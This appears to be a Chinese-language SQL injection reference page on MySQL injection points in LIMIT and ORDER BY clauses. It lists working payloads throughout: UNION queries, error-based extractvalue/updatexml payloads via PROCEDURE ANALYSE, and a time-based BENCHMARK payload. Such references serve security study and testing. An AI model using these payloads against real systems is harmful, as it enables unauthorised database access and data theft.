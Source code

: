 ## 其它注入点

### limit 注入

#### 不存在 order by 关键字

> select id from users limit [注入点]

这种可以用union进行联合查询注入

```
select id from users limit 0,1 union select username from users;
```



#### 存在 order by 关键字

> SELECT field FROM user WHERE id >0 ORDER BY id LIMIT [注入点]

payload(5.0.0< MySQL <5.6.6):

```
procedure analyse(extractvalue(rand(),concat(0x3a,version())),1); #extrctvalue报错注入
procedure analyse(updatexml(1,concat(0x3a,(select version())),1),1);#updatexml报错注入

PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1);  #如果不支持报错就用time-based 的注入，这里不能用sleep而只能用 BENCHMARK
```

### order by 注入

order by是mysql中对查询数据进行排序的方法， 使用示例

```
select * from 表名 order by 列名(或者数字) asc；升序(默认升序)
select * from 表名 order by 列名(或者数字) desc；降序
```

这里的重点在于order by后既可以填列名或者是一个数字。举个例子： id是user表的第一列的列名，那么如果想根据id来排序，有两种写法:

```
select * from user order by id;
selecr * from user order by 1;
```

#### order by 与 报错注入

当页面会展示出MYSQL的错误信息时，可以使用报错注入。

> select * from test order by user_id and(updatexml(1,concat(0x7e,(select user())),0))

#### order by 与 union 联合查询

•当 $query = "select * from users order by id $input ";没有使用括号包裹的时候，是无法直接使用union查询的。

•当 $query = "(select * from users order by id $input) ";使用括号进行包裹的时候，此时是可以进行union查询的。


